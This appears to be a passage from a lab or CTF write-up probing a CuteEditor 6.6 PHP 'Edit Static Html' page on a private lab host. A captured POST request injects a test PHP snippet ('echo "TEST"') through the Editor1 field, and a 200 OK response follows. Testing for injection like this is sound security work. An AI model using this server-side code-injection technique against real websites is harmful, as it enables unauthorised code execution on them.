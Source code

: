 ```http
<html>	
    <head>
		<title>Edit Static Html Example -- PHP Content Management, PHP WYSIWYG, PHP HTML Editor, PHP Text Editor</title>
		 <link rel="stylesheet" href="php.css" type="text/css" />
	</head>
    <body>
	<form name="theForm" action="Edithtml.php?postback=true" method="post">
					<h1>Edit Static Html</h1>
					<div>
						This example demonstrates you can use Cute Editor to edit static html page. 
						<br />
						<br />
					</div>
					<br />
           <!-- CuteEditor Version 6.6 Editor1 Begin --> 
<textarea name='Editor1' id='Editor1' rows='13' cols='50' class='CuteEditorTextArea' style='DISPLAY: none; WIDTH: 100%; HEIGHT: 100%'></textarea>

[...]
```

`HTTP Request`:
```http
POST /Edithtml.php?postback=true HTTP/1.1
Host: 192.168.56.140
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://192.168.56.140
Connection: close
Referer: http://192.168.56.140/Edithtml.php?postback=true
Cookie: PHPSESSID=bo5uopb8kvqjm3v5u17obv21fn
Upgrade-Insecure-Requests: 1

Editor1=%3C%3Fphp+echo+%22TEST%22+%3F%3E&Editor1ClientState=&Save.x=6&Save.y=6&textbox1= ←
```
`HTTP Response`:
```http
HTTP/1.1 200 OK ←
Server: nginx/1.18.0
Date: Fri, 11 Oct 2024 14:59:42 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 40025

<html>	
    <head>
		<title>Edit Static Html Example -- PHP Content Management, PHP WYSIWYG, PHP HTML Editor, PHP Text Editor</title>
		 <link rel="stylesheet" href="php.css" type="text/css" />
	</head>
    <body>
	<form name="theForm" action="Edithtml.php?postback=true" method="post">
					<h1>Edit Static Html</h1>
					<div>
```